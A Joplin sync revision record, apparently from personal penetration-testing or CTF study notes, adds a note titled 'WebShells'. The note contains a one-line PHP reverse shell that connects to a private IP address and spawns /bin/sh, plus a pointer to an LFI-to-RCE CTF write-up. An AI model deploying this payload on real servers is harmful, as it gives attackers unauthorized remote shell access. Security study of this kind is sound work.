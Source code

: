 id: 1139907225bf43b9bbb9ff613ce0e070
parent_id: 
item_type: 1
item_id: 04f60329fa59421bbda0919c530ec989
item_updated_time: 1651501039485
title_diff: "[{\"diffs\":[[1,\"WebShells\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":10}]"
body_diff: "[{\"diffs\":[[1,\"All shells available in /usr/share/webshells\\\n\\\n![6631f8d70f89582903c24a8b3af64b9e.png](:/8f557d58cce342c7b796f39e81780b40)\\\n\\\n# PHP Reverse Shell\\\n\\\n&lt;?php $sock=fsockopen(\\\"192.168.119.167\\\",5001); exec(\\\"/bin/sh -i <&3 &gt;&3 2>&3\\\");?>\\\n\\\n# LFI + RCE available\\\n\\\nhttps://v3ded.github.io/ctf/zico2\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":289}]"
metadata_diff: {"new":{"id":"04f60329fa59421bbda0919c530ec989","parent_id":"b8fe3751a1b24ee7ad3f067e0a5bfdcd","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-02T14:20:36.031Z
created_time: 2022-05-02T14:20:36.031Z
type_: 13